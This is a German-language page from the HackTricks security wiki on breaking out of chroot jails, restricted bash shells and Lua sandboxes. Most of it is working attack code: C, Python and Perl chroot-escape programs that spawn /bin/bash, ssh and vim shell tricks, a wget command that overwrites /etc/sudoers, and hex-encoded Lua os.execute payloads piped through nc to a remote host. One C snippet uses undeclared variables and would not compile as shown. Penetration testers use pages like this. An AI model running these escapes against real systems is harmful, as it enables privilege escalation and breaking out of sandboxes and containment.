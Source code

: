# Ausbrechen aus Gefängnissen

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## **GTFOBins**

**Suche in** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **ob du eine Binärdatei mit der "Shell"-Eigenschaft ausführen kannst**

## Chroot-Ausbrüche

Von [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Der chroot-Mechanismus ist **nicht dazu gedacht**, um gegen absichtliche Manipulationen durch **privilegierte** (**root**) **Benutzer** zu verteidigen. In den meisten Systemen stapeln sich chroot-Kontexte nicht richtig und chrooted Programme **mit ausreichenden Rechten können einen zweiten chroot durchführen, um auszubrechen**.\
Normalerweise bedeutet dies, dass du root innerhalb des chroot sein musst, um auszubrechen.

{% hint style="success" %}
Das **Tool** [**chw00t**](https://github.com/earthquake/chw00t) wurde entwickelt, um die folgenden Szenarien auszunutzen und aus `chroot` auszubrechen.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Wenn du **root** innerhalb eines chroot bist, **kannst du ausbrechen**, indem du **einen weiteren chroot** erstellst. Das liegt daran, dass 2 chroots nicht koexistieren können (in Linux), also wenn du einen Ordner erstellst und dann **einen neuen chroot** in diesem neuen Ordner erstellst, während du **außerhalb davon bist**, wirst du jetzt **außerhalb des neuen chroot** sein und somit im FS.

Dies geschieht, weil chroot normalerweise DEIN Arbeitsverzeichnis nicht in das angegebene verschiebt, sodass du einen chroot erstellen kannst, aber außerhalb davon bist.
{% endhint %}

Normalerweise wirst du die `chroot`-Binärdatei nicht innerhalb eines chroot-Gefängnisses finden, aber du **könntest eine Binärdatei kompilieren, hochladen und ausführen**:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Gespeicherter fd

{% hint style="warning" %}
Dies ist ähnlich wie im vorherigen Fall, aber in diesem Fall **speichert der Angreifer einen Dateideskriptor für das aktuelle Verzeichnis** und **erstellt dann das chroot in einem neuen Ordner**. Schließlich hat er **Zugriff** auf diesen **FD** **außerhalb** des chroot, er greift darauf zu und **entkommt**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD kann über Unix Domain Sockets übergeben werden, also:

* Erstelle einen Kindprozess (fork)
* Erstelle UDS, damit Eltern- und Kindprozess kommunizieren können
* Führe chroot im Kindprozess in einem anderen Ordner aus
* Erstelle im Elternprozess einen FD eines Ordners, der außerhalb des neuen chroot des Kindprozesses liegt
* Übergebe diesen FD an den Kindprozess über die UDS
* Der Kindprozess wechselt in das Verzeichnis dieses FD, und da es außerhalb seines chroot ist, wird er aus dem Gefängnis entkommen
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Mounten des Root-Geräts (/) in ein Verzeichnis innerhalb des chroot
* Chrooten in dieses Verzeichnis

Das ist in Linux möglich
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Mount procfs in ein Verzeichnis innerhalb des chroot (falls es noch nicht geschehen ist)
* Suche nach einer PID, die einen anderen Root/CWD-Eintrag hat, wie: /proc/1/root
* Chroot in diesen Eintrag
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Erstelle einen Fork (Kindprozess) und chroot in einen anderen Ordner tiefer im FS und wechsle in ihn
* Bewege vom Elternprozess den Ordner, in dem sich der Kindprozess befindet, in einen Ordner vor dem chroot der Kinder
* Dieser Kinderprozess wird sich außerhalb des chroot finden
{% endhint %}

### ptrace

{% hint style="warning" %}
* Vor einiger Zeit konnten Benutzer ihre eigenen Prozesse von einem eigenen Prozess debuggen... aber das ist standardmäßig nicht mehr möglich
* Wenn es jedoch möglich ist, könntest du ptrace in einen Prozess und Shellcode darin ausführen ([siehe dieses Beispiel](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Hole Informationen über das Gefängnis:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### PATH ändern

Überprüfen Sie, ob Sie die PATH-Umgebungsvariable ändern können.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Vim verwenden
```bash
:set shell=/bin/sh
:shell
```
### Erstelle Skript

Überprüfe, ob du eine ausführbare Datei mit _/bin/bash_ als Inhalt erstellen kannst.
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Holen Sie sich bash von SSH

Wenn Sie über ssh zugreifen, können Sie diesen Trick verwenden, um eine bash-Shell auszuführen:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Erklären
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Sie können beispielsweise die sudoers-Datei überschreiben.
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Andere Tricks

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**Es könnte auch interessant sein, die Seite zu besuchen:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Tricks zum Entkommen aus Python-Jails auf der folgenden Seite:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

Auf dieser Seite finden Sie die globalen Funktionen, auf die Sie innerhalb von Lua zugreifen können: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval mit Befehlsausführung:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Einige Tricks, um **Funktionen einer Bibliothek ohne Verwendung von Punkten aufzurufen**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Enumerieren Sie Funktionen einer Bibliothek:
```bash
for k,v in pairs(string) do print(k,v) end
```
Beachten Sie, dass sich **die Reihenfolge der Funktionen ändert**, jedes Mal, wenn Sie die vorherige Einzeile in einer **anderen Lua-Umgebung ausführen**. Daher können Sie, wenn Sie eine bestimmte Funktion ausführen müssen, einen Brute-Force-Angriff durchführen, indem Sie verschiedene Lua-Umgebungen laden und die erste Funktion der le-Bibliothek aufrufen:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Interaktive Lua-Shell erhalten**: Wenn Sie sich in einer eingeschränkten Lua-Shell befinden, können Sie eine neue Lua-Shell (und hoffentlich unbegrenzt) erhalten, indem Sie Folgendes aufrufen:
```bash
debug.debug()
```
## Referenzen

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Folien: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
